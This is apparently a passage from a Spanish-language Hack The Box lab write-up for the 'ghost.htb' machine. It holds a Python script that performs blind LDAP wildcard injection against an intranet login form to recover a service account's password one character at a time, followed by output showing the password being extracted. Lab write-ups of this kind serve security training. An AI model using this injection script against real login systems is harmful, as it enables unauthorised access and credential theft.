 

```python
import string
import requests

# Configuración
url = 'http://intranet.ghost.htb:8008/login'
headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Connection': 'keep-alive'
}

# Caracteres a probar (puedes ampliar si el login acepta mayúsculas o símbolos)
charset = string.ascii_lowercase + string.digits  
password = ""

while True:
    found = False
    for char in charset:
        test_password = f"{password}{char}*"

        files = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, test_password),
            '0': (None, '[{},"$K1"]')
        }

        r = requests.post(url, headers=headers, files=files)

        if r.status_code == 303:  # Código de redirección indica login exitoso
            password += char
            print(f"[✔] Caracter encontrado: {char} → {password}")
            found = True
            break  # Salir del loop de caracteres y probar el siguiente

    if not found:
        print(f"[✅] Contraseña encontrada: {password}")
        break  # Si ningún carácter fue válido, finaliza

print(f"[🔓] Contraseña final: {password}")
```



```bash
❯ python3 brute_ldap.py
[✔] Caracter encontrado: s → s
[✔] Caracter encontrado: z → sz
[✔] Caracter encontrado: r → szr
[✔] Caracter encontrado: r → szrr
[✔] Caracter encontrado: 8 → szrr8
[✔] Caracter encontrado: k → szrr8k
[✔] Caracter encontrado: p → szrr8kp
[✔] Caracter encontrado: c → szrr8kpc
[✔] Caracter encontrado: 3 → szrr8kpc3
[✔] Caracter encontrado: z → szrr8kpc3z
[✔] Caracter encontrado: 6 → szrr8kpc3z6
[✔] Caracter encontrado: o → szrr8kpc3z6o
[✔] Caracter encontrado: n → szrr8kpc3z6on
[✔] Caracter encontrado: l → szrr8kpc3z6onl
[✔] Caracter encontrado: q → szrr8kpc3z6onlq
[✔] Caracter encontrado: f → szrr8kpc3z6onlqf
```